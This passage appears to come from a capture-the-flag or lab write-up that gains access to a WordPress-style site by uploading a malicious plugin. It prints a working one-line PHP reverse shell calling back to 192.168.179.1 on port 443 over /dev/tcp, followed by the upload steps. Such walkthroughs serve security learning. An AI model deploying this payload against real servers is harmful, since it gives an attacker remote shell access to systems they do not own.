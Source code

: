 ## Exploitation
### Inject Malicious Plugin
We can upload php files as a plugin, for this I create a simple php reverse shell.

```bash
root@kali:~$ cat shell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.179.1/443 0>&1'"); ?>
```

Then we add a new plugin in the following path **Plugins -> Add New -> Upload Plugin**, and later we click **Install Now**.

![](/assets/images/evm/screenshot-7.png)

![](/assets/images/evm/screenshot-8.png)
